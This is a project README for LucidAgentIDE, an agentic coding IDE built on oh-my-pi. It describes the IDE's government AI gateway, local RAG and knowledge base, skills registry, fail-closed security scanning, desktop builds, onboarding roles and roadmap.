[**AskSage**](https://asksage.ai) accredited government AI gateway is integrated as an omp provider extension
([ADR-0007](DECISIONS.md)):

- **Lockdown mode** routes *every* turn through the gov gateway and hides direct providers.
- **Scanned personas** - server-supplied persona text passes the same Unicode scanner before it can enter a
  prompt; flagged personas are blocked.
- **Dataset-grounded RAG** via AskSage's `/query` route, returning **expandable citations** grounded on the
  knowledge bases you select.
- **Premium model picker** with per-model **Token Expense** + **Intelligence Level** ratings and a monthly
  token-quota meter.

Optionally, the on-device [**headroom**](https://github.com/chopratejas/headroom) token-compression proxy can
be enabled to stretch a gov token quota ([ADR-0008](DECISIONS.md)).

<div align="center">
<br/>

<br/>
<sub><b>↑ AskSage gov-gateway "lockdown"</b> - one toggle routes <i>every</i> turn through the accredited gateway and hides direct providers in the model picker; the monthly token-quota meter and personalization (private · encrypted · opt-in) sit alongside.</sub>
</div>

## 📚 Knowledge & RAG

> **The local spine is shipped** ([ADR-0053/0058/0063/0064](DECISIONS.md)): scan-gated PDF ingest into an
> air-gapped DuckDB vector store with real bge-small **semantic retrieval**, injected delimited and
> post-cache. The guided import popup and AskSage dataset training land next as `P-RAG.2-4`. Bring your
> own documents into the agent's context - **two paths, one trust boundary**, both scanned by the same
> fail-closed gate.

- 🔒 **Local-first and air-gapped.** Drag in PDFs and images; they're parsed, embedded, and indexed **entirely on your machine** - no document ever leaves the host.
- 🖼️ **PDF + image ingest.** Local PDF text extraction, plus a caption for each image so it works in multimodal prompts (optional on-device OCR).
- 💻 **Built for a standard laptop.** WASM embeddings (**no GPU, no native binaries**) with **bundled weights**, so it works fully **offline**.
- 🏛️ **Gov-cloud datasets, classification-aware.** Optionally train AskSage datasets from your files - and **CUI is never sent to a Civ endpoint**. The UI tells you where your data goes.
- 🧭 **One guided popup.** A walkthrough with a **parse-and-scan preview** that shows what was extracted, and the gate's verdict, *before* anything is stored.

Every ingested chunk runs the **same lifecycle as everything else** - scanned, trust-labeled, and quarantined
if poisoned, *before* it can ever be embedded or recalled. (Keystone #2 holds for RAG too.)

> **🧠 Compiled KB - a knowledge base that accumulates (shipped).** Built in
> [ADR-0099](DECISIONS.md)/[ADR-0100](DECISIONS.md) (`P-KB.1-2`), a **sibling** to the vector spine you can
> use in parallel or on its own. Instead of opaque chunks, an LLM **compiles** your documents into a
> persistent wiki of **summary, concept, and entity pages** joined by **cross-reference links** and **kept in
> sync** - structural, citation-backed retrieval inspired by [OpenKB](https://github.com/VectifyAI/OpenKB),
> rebuilt in **TypeScript + DuckDB (no Python)**. Same fail-closed gate on the source **and** on every
> model-compiled page (derived content never auto-trusts - keystone #2). One retrieval router answers from
> **vector, compiled, or both**, and the page graph renders in the KG canvas (the "Compiled KB" view).

## 🧩 Agent Skills directory & enterprise registry

> **Shipped** ([ADR-0097](DECISIONS.md) directory + management, [ADR-0101](DECISIONS.md) Skill Studio,
> [ADR-0098/0102](DECISIONS.md) registry reader + publish seams). An [Agent Skill](https://agentskills.io)
> is a `SKILL.md` folder the agent loads on demand - procedural memory that costs only a few metadata
> tokens until it triggers. LucidAgentIDE ships a curated bundled corpus, scan-gated skill import, and one
> place to **see and govern every skill** - with a path to host your own private registry.

- 🗂️ **One directory, every source.** Bundled, project (`.omp/skills`), user, and curated `.agents/skills/` skills in a single view - each with its **source root**, **trust label**, invocation id, and real progressive-disclosure token cost.
- 🎛️ **Manage, don't just list.** Inspect a skill's body + bundled scripts/references read-only, **enable/disable** it, **re-scan** it through the fail-closed gate, and remove imported ones - bundled assets stay immutable.
- 🛡️ **Fail-closed by construction.** A `suspicious`/`quarantined` skill is shown but **cannot be enabled or loaded**; a dead scanner on re-scan means quarantine, never "safe." Skill bodies are delimited *data*, never instructions (keystone #2 holds for skills too).
- 🛠️ **Skill Studio - turn your week into skills (shipped).** Built in [ADR-0101](DECISIONS.md) (`P-SKILL.5`), a one-click button that analyzes your **day's or week's** work (sessions, AI-authored edits, loop outcomes) and **drafts Agent Skills** with your most-used model - each one **scanned before it's saved** and **reviewed before it's codified** (a reviewed draft is excellent; an un-reviewed one is worse than none). Codified skills land in your **Local Skills Registry**.
- 🏛️ **Enterprise skills registry - reader seam ships now (`P-SKILLREG.1`).** The source-available app carries the read-only **registry reader**: an install is **fetch → verify (Ed25519 signature vs. your trusted keys) → scan-gate (the same fail-closed gate) → install**, and an **unsigned, signature-mismatched, unconfigured-key, or scan-flagged** skill is **blocked, never written** (keystone #2: an installed registry skill is shown `untrusted`, never auto-promoted to trusted). Installed skills appear in the directory above under a **Registry** source. The hosting side - publish/version/**sign (Cosign + SLSA)**/distribute as portable **OCI artifacts on an S3-compatible backend** that stands up identically on **AWS, Azure, Google Cloud, OCI, IBM Cloud, VMware, Nutanix, NetApp ONTAP, and KVM** via Terraform, incl. **air-gapped and IL5** partitions - is the separately-licensed add-on (server + runbooks are private IP).
- 🚀 **Push to where your org already lives - publish seam ships now (`P-SKILLREG.2`).** A single **`RegistryPublisher`** seam ships in the core with a default **`LocalRegistryPublisher`** (serves your skills as the Local Skills Registry) + a fail-safe `PublishDispatcher` (a dead/missing publisher never throws into a turn; a declared remote with no publisher is a clean no-op). The remote publishers - enterprise cloud OCI registries (AWS/Azure/GCP/Oracle/IBM) and **custom git** (Enterprise GitLab, GitHub, Azure DevOps) - implement the same interface and are a separately-licensed add-on. Publishing establishes **no trust**: the read side still verifies the signature + scan-gates before install; every remote push is **egress-gated** and centrally policy-clamped.

##  Built on

LucidAgentIDE is a thin, principled layer over best-in-class building blocks - credit where it's due:

| Project | What it is | How LucidAgentIDE uses it |
|:--|:--|:--|
| [**oh-my-pi (omp)**](https://omp.sh) <sub>· [repo](https://github.com/can1357/oh-my-pi)</sub> | A fast agentic coding runtime: tool-calling, model routing, sessions, sandboxing, ACP, extensions, skills | The host. Everything is added via omp **hooks / custom tools / SDK** - **never a fork** |
| [**DuckDB**](https://duckdb.org) | An in-process analytical (OLAP) SQL database | The append-only **provenance + memory store** (findings, telemetry, semantic memory, run lineage) |
| [**Obsidian**](https://obsidian.md) | A local-first Markdown knowledge base with `[[wikilinks]]` + a graph view | The **export format** for the personalization knowledge graph - one click decrypts your Personal + Work nodes into a portable vault (notes, `[[wikilinks]]`, escaped; CUI excluded by design; audited) |
| [**BoringSSL**](https://boringssl.googlesource.com/boringssl/) | Google's streamlined fork of OpenSSL (Bun's crypto backend) | Context for the **FIPS posture** - FIPS-approved algorithms; no FIPS *mode* in Bun's runtime |
| [**headroom**](https://github.com/chopratejas/headroom) | An on-device, OpenAI-compatible token-compression proxy (60-95% reduction) | **Opt-in** context compression to stretch gov token quotas |
| [**AskSage**](https://asksage.ai) | An accredited government generative-AI gateway fronting OpenAI/Anthropic/Google | An omp **provider extension**: lockdown, scanned personas, dataset-grounded RAG |

Runtime stack: [Bun](https://bun.sh) (harness + dev server), [Electron](https://electronjs.org) (desktop),
[uv](https://docs.astral.sh/uv/)-managed Python (scanner sidecar).

##  Quick start

```bash
bun install                       # harness deps (Bun >= 1.3)
cd scanner-sidecar && uv sync     # pinned Python sidecar venv

# prove it end-to-end
bun run demo-00                   # omp echo round-trip + scanner + fail-closed proof
make test                         # full suite: harness + desktop + scanner sidecar (1,900+ tests)
bun run demo-P4.3                 # poisoned memory can't auto-promote (keystone #2)
bun run demo-P2.1                 # unicode scanner: every finding fires, clean corpus is FP-free
```

Requires [Bun](https://bun.sh) and [uv](https://docs.astral.sh/uv/). `make` is optional - the
[`Makefile`](Makefile) is the canonical task spec, mirrored as bun scripts on hosts without `make`.

**Verification.** Every increment ships a runnable proof - `make demo-<id>` (e.g. `demo-P-EXEC.1`,
`demo-P-TOOLFAIL.1`, `demo-P-EGRESS.2`; `make help` lists them all) - and CI runs the full test suite plus
`tsc --noEmit` across all three TypeScript projects on every push. New work lands one increment per session
behind its own ADR + demo + tests; see [`CLAUDE.md`](CLAUDE.md) for the invariants and session ritual.

##  Desktop app

A polished Electron shell: a **gated agent chat**, plus live **Security** and **Memory & Context** inspectors
(collapsible sections, custom tooltips, ⌘K palette, a non-modal fly-in toast when the gate quarantines a tool
call).

<div align="center">
<br/>

<br/>
<sub><b>↑ The gated chat + live Memory & Context rail</b> - prompt-cache savings, context window, turns, findings, and quarantines at a glance; every tool call is scanned before it runs (<code>gate active · live</code>).</sub>
</div>

```bash
bun run desktop:web      # http://localhost:5319 - full GUI (chat + dashboards) in a browser
bun run dashboard:web    # http://localhost:4317 - dashboards only, live, read-only
cd desktop && bun install && bun run start   # the packaged Electron app
```

`desktop:web` runs the exact same renderer with a **real omp chat backend** (the dev server drives
`omp acp -e harness/omp/security_extension.ts`), so the **security gate stays loaded in-process on the chat
path** and you get genuine model replies in a plain browser - no Electron needed. See
[`desktop/README.md`](desktop/README.md) and [ADR-0006](DECISIONS.md).

### Platform Builds

CI builds desktop installers for **all three platforms** on every tag push:

| Platform | Artifact | Status | Download (latest release) |
|:--|:--|:--|:--|
| **Windows** | NSIS installer + portable `.exe` (x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | [**Installer**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-Setup.exe) · [Portable](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-portable.exe) |
| **macOS** | `.pkg` installer **+** `.zip` app bundle (arm64 + x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | `.pkg`: [**Apple Silicon**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-arm64.pkg) · [Intel](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-x64.pkg) · `.zip`: [arm64](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-arm64.zip) · [x64](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-x64.zip) |
| **Linux** | portable `AppImage` (x64) | [](https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml) | [**AppImage**](https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-x86_64.AppImage) |

All builds bundle [Bun](https://bun.sh) and [uv](https://docs.astral.sh/uv/) runtimes so the installed app
needs **zero prerequisites**. Code-signing and notarization are supported when certs are configured.

> **macOS:** double-click the **`.pkg`** to install `LucidAgentIDE.app` into **Applications** - the simplest
> path. Builds are unsigned, so if Gatekeeper blocks the first launch, right-click the app -> **Open** once
> (or System Settings -> Privacy & Security -> **Open Anyway**). Prefer no installer? The **`.zip`** is a
> drag-to-Applications app bundle, and in-app auto-update uses that same zip feed. Or use **Homebrew** (below),
> which installs the `.pkg` and strips quarantine for you - no Gatekeeper prompt.
>
> **Linux:** the download is a portable `AppImage` - `chmod +x LucidAgentIDE-x86_64.AppImage` and run it,
> no install needed.

### Homebrew (macOS)

Install the desktop app with Homebrew Cask straight from this repo - no manual unzip, and `brew upgrade`
keeps the cask wiring current (the app itself also self-updates via electron-updater):

```bash
brew tap mlcyclops/lucid https://github.com/mlcyclops/lucidagentide
brew trust --cask mlcyclops/lucid/lucidagentide   # Homebrew >= 6 gates third-party taps
brew install --cask lucidagentide
```

`brew trust` is required on Homebrew 6+, which refuses to load casks from a third-party tap until you
explicitly trust it (older Homebrew skips this step). The cask installs a `.pkg`: `installer(8)` places the
app in `/Applications` **without** the macOS quarantine flag, so it launches with **no Gatekeeper prompt**
even though the build is unsigned/not-notarized (a `postflight` strips quarantine as belt-and-suspenders, so
there is no manual `xattr` step). The cask serves both Apple Silicon and Intel automatically. To remove it
later: `brew uninstall --cask lucidagentide` (add `--zap` to also delete app data).

##  Onboarding

First launch asks **who you are**, then gets out of your way. Pick one of four roles - **Developer**,
**Security engineer**, **Manager**, or **Executive** - and the IDE leads with the surface that role actually
uses: the developer lands on chat + live context/cache/cost, the analyst on the security queue, the manager
on the cost + delivery ledger, the executive on a posture + spend summary. Nothing is ever hidden for good -
every panel stays one `Ctrl`/`⌘`+`K` away, and a real security block always surfaces for every role. Roles
are a cosmetic preset: they change what's *foregrounded*, never what the fail-closed gate enforces.

A one-time **guided walkthrough** then spotlights the panels that matter to your role - composer, security
queue, memory, command palette - in the same premium card style as the model picker. Skip it any time, or
replay it later from **About -> Take the tour**. Switch roles whenever you like in **Settings -> Profile**; a
managed GPO/MDM policy can pin the role org-wide. Every role gets its own custom animated glyph, and shortcut
hints render per-OS (`⌘K` on macOS, `Ctrl+K` on Windows/Linux).

<div align="center">
<br/>

<br/>
<sub><b>↑ The role picker</b> - choose a role to tailor the first view. Custom animated glyph per role; cosmetic only - the fail-closed security gate is identical for every role.</sub>
<br/><br/>

<br/>
<sub><b>↑ The guided walkthrough (coachmark)</b> - a dimmed, dismissable spotlight on each panel that matters to your role, in the model-picker card style; Back / Next / Skip, replayable any time from About.</sub>
</div>

### Role guides

The onboarding tour teaches the UI in seconds then vanishes; for a durable, read-end-to-end reference each
role has its own **user guide** under [`docs/guides/`](docs/guides/README.md) - task-oriented walkthroughs in
that role's language, with step-by-step capability tours, tips/warnings, and a cited *Notes and References*
section. Read your own, link a teammate to theirs, or hand the security guide to an auditor:

- **[Developer guide](docs/guides/developer-guide.md)** - chat + model picker, edit modes, the Memory inspector (context / cache / cost), Knowledge & RAG, the gated Save, and the `/goal` loop.
- **[Security guide](docs/guides/security-guide.md)** - the fail-closed gate + scanner, the quarantine/approvals queue, the promotion gate, per-action exec + the Speed↔Risk dial, egress approval, and the OCSF audit export.
- **[Manager guide](docs/guides/manager-guide.md)** - the cost & savings ledger + showback, the AI-authorship LOC ledger, `/goal` after-action reports, the budget kill switch, and AskSage gov usage.
- **[Executive guide](docs/guides/executive-guide.md)** - the posture + spend summary, the Engineering Update brief, and the governance posture tiles.

> Guides ship with documented screenshot placeholders ([`docs/guides/`](docs/guides/README.md) explains the
> capture spec); the captured images land in a follow-up pass.

##  Roadmap

**Shipped and green.** The full security lifecycle, provenance lineage + replay, the cache-optimized prompt,
the desktop app, and the AskSage gov gateway (with tool use on Claude *and* Gemini). Plus cross-model cost
tracking, CUI isolation, the encrypted personalization graph with cross-session recall (and one-click
Obsidian-vault export), AI-authorship attribution, one-command import, a read-write IDE with gated saves,
the **`/goal` loop** with full loop-engineering (after-action reports, a budget kill switch, and stall
guards), a local **RAG knowledge spine** + the **compiled KB** with hybrid retrieval, the governed **skills
directory** + **Skill Studio**, **local & hybrid providers**, the **Agent Builder**, the **agent firewall**,
and the **runtime execution boundary** (OS-isolated exec + mediated egress). **Newest (v1.10.6):** the
**redesigned agent turn** (collapsible sections + inline tool chips, or the rich activity window with
expanded subagent detail), a **Model-Evaluation** report suite (honesty-tiered per-run metrics + a
cross-run rollup with per-model API-latency), **10-minute provider patience**, and an **opt-in,
AI-refreshable Trivia Wire**. *(v1.10.5 brought live subagent activity, graphs that form in place, a
system resource guard, the runnable Electron preview, and a curated plugin marketplace.)*

Every test suite passes and `tsc --noEmit` is clean across all three projects (TypeScript + Python). The
table below is the recent slice; [`PROGRESS.md`](PROGRESS.md) has the full per-session log.

### Recent updates

| Phase | Feature | ADR |
|:--|:--|:--|
| **v1.10.6 batch** | **Redesigned agent turn + Model-Evaluation suite** - a settled answer folds into collapsible sections + threads tool calls back as inline **chips** (with +/- diffstats + code drilldowns) when they interleave, else keeps the rich **activity window** + **expanded subagent detail**; a settled **file-writing** turn offers a thin, subdued **"Generate engineering report"** (honesty-tiered per-run metrics) plus a **cross-run rollup** with per-model **API-latency p50/p95**; **10-min provider patience** with a "still waiting" notice; and an **opt-in, AI-refreshable Trivia Wire** | [ADR-0186-0191](DECISIONS.md) |
| **v1.10.5 batch** | **Live subagent activity** (the delegation card opens each subagent's thinking/tools/output), **graphs form in place** (off-screen settle, snap-centered open), a **system resource guard** (weak CPU under load pauses heavy builds behind a what-to-close panel), the **Electron preview** explained + runnable outside LUCID, the role-aware **Trivia Wire** ticker, a **curated plugin marketplace** (Mermaid/Gitleaks/Semgrep/Trivy/Pandoc), and a decluttered KG header | [ADR-0174-0184](DECISIONS.md) |
| **P-SKILL.4-5 · P-KB.1-2b · P-SKILLREG.1-2** | **Skills governed + Skill Studio + compiled KB** - the skills directory (source root, trust label, enable/disable, re-scan, remove), Skill Studio drafts skills from your recent work (scanned before saved, reviewed before codified), the registry reader + publish seams, and the OpenKB-style compiled KB with the vector/compiled/both retrieval router + its page-graph view | [ADR-0097-0102](DECISIONS.md) |
| **P-EXEC.2** | **Tool calls fixed in live chat** - omp 16.1 moved per-tool approval to a FORM elicitation the client must advertise; without it every `bash`/`eval`/edit/delete call silently failed with "Tool call denied by user" and no prompt. LUCID now advertises `elicitation.form` and answers the approval, so the approve/deny prompt surfaces and gated commands run once approved (our `session/request_permission` gate stays authoritative) | [ADR-0110](DECISIONS.md) |
| **P-NETWL.5 · P-IDE.1e** | **Easy egress + Fable 5** - two pre-checked toggles ("Allow web search", "Allow all websites + local LAN") so agents reach the internet out of the box; the curated whitelist enforces only when "Allow all" is off, and even on it still asks before a public IP or a foreign-country site (enterprise policy can force whitelist-only). Plus **Fable 5** in the model picker when a Claude account is connected, with a U.S.-government privacy notice | [ADR-0108/0109](DECISIONS.md) |
| **P-NETWL.1-4 · P-KEYS.1-2** | **Network whitelist + credential vault** - a curated allow-list of domains (`*.com` TLD + exact) and IP/CIDR ranges by internal/external zone, managed in Settings, with **enforced** trust scopes (`always` / `project` / this-`loop`) + a per-loop **call budget**; a match auto-allows the agent's network calls *under* the enterprise-managed ceiling (fail-closed). Click a **DNS pill** in Network diagnostics to whitelist a host the agent just resolved. Optional per-site auth (JWT/OAuth/SAML/PEM/API-key/basic) is stored **OS-encrypted** (DPAPI/Keychain/libsecret) via paste or native file upload - refused, never plaintext, if encryption is unavailable - shown masked as `••••XXXX` (last-4 only), with **rotation visibility** (rotated Nd ago / rotation due / expired) and one-click **rotate-in-place** | [ADR-0106/0107](DECISIONS.md) |
| **P-DOC.1** | **Role-based user guides** - per-role (Dev/Sec/Mgr/Exec) end-to-end walkthroughs under [`docs/guides/`](docs/guides/README.md): step-by-step capability tours, tips/warnings, screenshot placeholders, and cited *Notes and References* | [ADR-0092](DECISIONS.md) |
| **P-TOOLFAIL.1 · P-EGRESS.2 · P-LOC.3** | **Agent-trust UX** - an honest failed/rejected tool-call chip (distinguishes a tool that *failed* from one that *didn't run*, never implies a denial), a local-file browser open labeled + audited as a local file (not a website), and the AI-authorship ledger made discoverable (palette entry) + never silently vanishing | [ADR-0093/0094/0095](DECISIONS.md) |
| **P-EXEC.1 · P-GOAL.13** | **Exec-tool safety** - per-action approval for `bash`/`eval` (read-only auto-runs, risky prompts, a catastrophic set *always* prompts/blocks) + a per-command **Speed↔Risk dial** governing the unattended `/goal` loop, with tools & blocks in the After-Action Report | [ADR-0066/0067](DECISIONS.md) |
| **P-ENT.1-2** | **Enterprise governance** - centrally-managed (GPO/MDM) security policy that only ever *tightens* the knobs, plus a SIEM-ready, **OCSF-aligned**, metadata-only **security-audit export** seam (fail-safe sinks) | [ADR-0068/0069](DECISIONS.md) |
| **P-RAG.1-1c** | **Local knowledge spine (RAG)** - scan-gated PDF ingest into an air-gapped DuckDB vector store, real bge-small **semantic** retrieval, delimited post-cache injection | [ADR-0058/0063/0064](DECISIONS.md) |
| **P-GOAL.9-11** | **Loop engineering** for the `/goal` loop - an **After-Action Report** (Mermaid graphs: tool calls by type, LOC ±, errors, sites visited), **convergence-stall + tool-failure guards**, a **cross-run evaluation ledger** (success rate / avg iterations-to-win / failure breakdown), and a **budget kill switch** (a hard `$` cap that aborts an unattended run mid-turn) | [ADR-0054-0056](DECISIONS.md) |
| **P-GOAL.1-8** | The **`/goal` agentic loop** - iterate to a verifiable stop condition with a separate (cheaper, recommended) checker model, durable on-disk memory, resume, scheduled automations, a cost estimate, and a guided walkthrough | [ADR-0046-0050](DECISIONS.md) |
| **AskSage tool use** | Claude **and** Gemini routed through the **gov gateway can now use omp tools** (write files, run commands) - the streamSimple adapter parses tool calls + scans each through the gate | [ADR-0051](DECISIONS.md) |
| **P-IDE.5-6** | Read-write Monaco IDE - **Save routed through the scanner gate** (≥high finding or dead scanner *blocks* the write), Save-As, conflict banner, Send-to-chat | [ADR-0036/0037](DECISIONS.md) |
| **P-IMP.1-2** | One-command **ChatGPT/Claude/Gemini import** - shard-aware, fully gated, with a first-run onboarding nudge + token/runtime estimate | [ADR-0034/0035](DECISIONS.md) |
| **P-LOC.1-2** | **AI-authorship attribution** - per-model/repo/identity LOC ledger + dashboard rollup | [ADR-0031](DECISIONS.md) |
| **P-IDE.1** | Sovereignty-aware **model governance** - gov curation, accredited-gateway gating, foreign-origin acknowledgment wall | [ADR-0029](DECISIONS.md) |
| **P8.1** | **Cross-session memory recall** - prior-session facts resurface as delimited, post-cache context | [ADR-0009](DECISIONS.md) |
| **P9.5** | Hard CUI isolation - separate encrypted CUI store | [ADR-0014](DECISIONS.md) |
| **P10.2** | Cross-model usage & cost ledger | [ADR-0011](DECISIONS.md) |

**Next** - designed in ADRs, building one increment per session:

| Theme | ADR |
|:--|:--|
| **Guided Knowledge & RAG import P-RAG.2-4** - the one-popup ingest walkthrough with a parse-and-scan preview, image captioning/OCR, and AskSage dataset training on the local spine | [ADR-0053](DECISIONS.md) |
| **Marketplace installs P-MARKET.2** - install a curated integration from a GitHub URL, gated exactly like agent-template import (digest + scan + trust label + approval) | [ADR-0158/0181](DECISIONS.md) |
| **Model-Evaluation, deepened P-EVAL.4** - wire the single-writer ingest of the metrics + latency JSONL ledgers into the observer DuckDB (so the `latency_rollup` view + cross-tool SQL see live data), a weekly/monthly **period selector** on the rollup, and a history/trend view of per-model quality over time | [ADR-0187](DECISIONS.md) |
| **Chat-turn polish P-CHAT.2** - a failed-tool inline `.fail` chip in the settled answer, and a step-sidecar interleave so **restored** turns show their chips too | [ADR-0189](DECISIONS.md) |
| **Exec-tool safety** - extend the per-action gate to `ssh` (key = host) and `task` sub-agents | [ADR-0066](DECISIONS.md) |
| **SIEM connectors** - Splunk HEC / syslog-CEF / Elastic / cloud sinks behind the now-shipped OCSF audit-export `Sink` interface | [ADR-0069](DECISIONS.md) |
| **Windows runtime containment (enterprise)** - the verified AppContainer backend + the admin loopback exemption that unlocks mediated egress on Windows | [ADR-0173](DECISIONS.md) |
| Prompt/response traceability · dev-mode logging deepening | [ADR-0009](DECISIONS.md) |

See [`PROGRESS.md`](PROGRESS.md) for the per-session log (shipped / stubbed / next).

## 🤝 Contributing

Built in the open, **one disciplined increment at a time.** If you want to run it from source, file an issue,
or propose a change, start here:

- **Read [`CLAUDE.md`](CLAUDE.md) first.** It's the load-bearing contract - fail-closed, extend omp (don't fork), frozen contracts, a byte-stable prompt. A change that silently breaks an invariant won't land.
- **ADR-first.** Non-trivial work begins as an ADR in [`DECISIONS.md`](DECISIONS.md) (184 and counting) - pick one up, or propose your own.
- **One increment per change.** Small, verifiable, with a demo and tests. See [`CHEATSHEET.md`](CHEATSHEET.md) for day-to-day commands.
- **Tests are the gate.** `bun test harness && bun test desktop` stay green and `tsc --noEmit` is clean; CI runs the build + CodeQL on every push.
- **The only Python is the scanner sidecar.** Everything else is TypeScript on Bun - please don't add a second Python surface.

**Good first areas:** the desktop GUI + dev server, scanner fixtures, docs/wording, and platform/build
robustness (Windows + macOS installers).

> **License.** The LucidAgentIDE core (this repository) is **source-available under the Business Source
> License 1.1** (BUSL-1.1) - the model HashiCorp uses for Terraform. You may read, modify, self-host, and
> use it **in production**, *except* to offer a hosted or embedded commercial product that competes with
> TechLead 187 LLC's products. On **2030-06-27** (the Change Date) each version converts to the **Mozilla
> Public License 2.0**. Full terms: [`LICENSE`](LICENSE). © 2026 TechLead 187 LLC. The premium enterprise
> add-on is a **separate, separately-licensed** repository; vendored dependencies (e.g. `vendor/oh-my-pi`)
> retain their own licenses. Please **open an issue or discussion before any large change** so we can align
> on scope and contribution terms.

##  Project docs

| Doc | What's in it |
|:--|:--|
| [`CLAUDE.md`](CLAUDE.md) | **Read first.** The load-bearing invariants (fail-closed, extend-don't-fork, frozen contracts, byte-stable prefix) |
| [`DECISIONS.md`](DECISIONS.md) | Architecture decision records (ADR-0001 … ADR-0191) |
| [`PROGRESS.md`](PROGRESS.md) | Per-session build log: shipped / stubbed / next |
| [`desktop/README.md`](desktop/README.md) | The desktop GUI + dev server |
| [`CHEATSHEET.md`](CHEATSHEET.md) | Day-to-day commands |
| [`docs/guides/`](docs/guides/README.md) | **Role-based user guides** - Developer / Security / Manager / Executive walkthroughs |
| [`docs/MARKET-POSITIONING.md`](docs/MARKET-POSITIONING.md) | **Where LUCID fits** - the public, qualitative positioning slice (the secure / sovereign agentic IDE segment) |

<div align="center">
<br/>
<sub>Built around <a href="https://omp.sh">oh-my-pi</a> · extend, never fork · fail-closed by construction</sub>
<br/>
<a href="https://www.linkedin.com/in/nickchadwick-techlead187/"></a>
<a href="https://x.com/TechLead187"></a>
<br/>
<sub>© 2026 TechLead 187 LLC · source-available under <a href="LICENSE">BUSL-1.1</a> (converts to MPL-2.0 on 2030-06-27) · <a href="https://www.linkedin.com/in/nickchadwick-techlead187/">LinkedIn</a> · <a href="https://x.com/TechLead187">@TechLead187</a></sub>
</div>
